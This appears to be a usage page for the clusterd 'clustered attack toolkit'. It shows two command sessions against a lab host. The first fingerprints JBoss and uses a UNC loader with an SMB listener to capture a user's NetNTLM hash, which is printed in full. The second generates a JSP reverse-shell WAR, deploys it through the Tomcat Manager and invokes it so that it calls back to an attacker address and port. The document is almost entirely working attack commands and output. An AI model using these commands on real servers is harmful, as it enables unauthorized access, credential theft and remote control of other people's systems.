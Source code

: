```
```

jboss UNC hash retrieval
```
$ sudo ./clusterd.py -i 192.168.1.105 -a jboss -v4.2 --random-agent --jb-smb

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-25 11:01PM] Started at 2014-05-25 11:01PM
 [2014-05-25 11:01PM] Servers' OS hinted at windows
 [2014-05-25 11:01PM] Fingerprinting host '192.168.1.105'
 [2014-05-25 11:01PM] Server hinted at 'jboss'
 [2014-05-25 11:01PM] Checking jboss version 4.2 JBoss JMX Console...
 [2014-05-25 11:01PM] Checking jboss version 4.2 JBoss Web Console...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss EJB Invoker Servlet...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss HTTP Headers (Unreliable)...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss JMX Invoker Servlet...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss RMI Interface...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss Status Page...
 [2014-05-25 11:01PM] Matched 7 fingerprints for service jboss
 [2014-05-25 11:01PM]   JBoss JMX Console (version 4.2)
 [2014-05-25 11:01PM]   JBoss Web Console (version 4.2)
 [2014-05-25 11:01PM]   JBoss EJB Invoker Servlet (version Any)
 [2014-05-25 11:01PM]   JBoss HTTP Headers (Unreliable) (version 4.2)
 [2014-05-25 11:01PM]   JBoss JMX Invoker Servlet (version Any)
 [2014-05-25 11:01PM]   JBoss RMI Interface (version Any)
 [2014-05-25 11:01PM]   JBoss Status Page (version Any)
 [2014-05-25 11:01PM] Fingerprinting completed.
 [2014-05-25 11:01PM] Setting up SMB listener..
 [2014-05-25 11:01PM] Invoking UNC loader...
 [2014-05-25 11:01PM] bryan::bryan-PC:1122334455667788:34826253d353ebca4811bd08be0db067:01010000000000003dac35999f78cf019df7c49c7268a5f600000000020000000000000000000000
 [2014-05-25 11:01PM] Finished at 2014-05-25 11:01PM
```

tomcat deployment and reverse shell invocation
```
$ ./clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-25 10:53PM] Started at 2014-05-25 10:53PM
 [2014-05-25 10:53PM] Generating payload....
 [2014-05-25 10:53PM] Payload generated (shell.war).  Payload: java/jsp_shell_reverse_tcp
 [2014-05-25 10:53PM] Servers' OS hinted at windows
 [2014-05-25 10:53PM] Fingerprinting host '192.168.1.105'
 [2014-05-25 10:53PM] Server hinted at 'tomcat'
 [2014-05-25 10:53PM] Checking tomcat version 5.5 Tomcat...
 [2014-05-25 10:53PM] Checking tomcat version 5.5 Tomcat Manager...
 [2014-05-25 10:53PM] Matched 2 fingerprints for service tomcat
 [2014-05-25 10:53PM]   Tomcat (version 5.5)
 [2014-05-25 10:53PM]   Tomcat Manager (version 5.5)
 [2014-05-25 10:53PM] Fingerprinting completed.
 [2014-05-25 10:53PM] Preparing to deploy /tmp/.clusterd/z1dgi.war...
 [2014-05-25 10:53PM] Deployed /tmp/.clusterd/z1dgi.war to /z1dgi
 [2014-05-25 10:53PM] z1dgi invoked at 192.168.1.105
 [2014-05-25 10:53PM] Finished at 2014-05-25 10:53PM
```
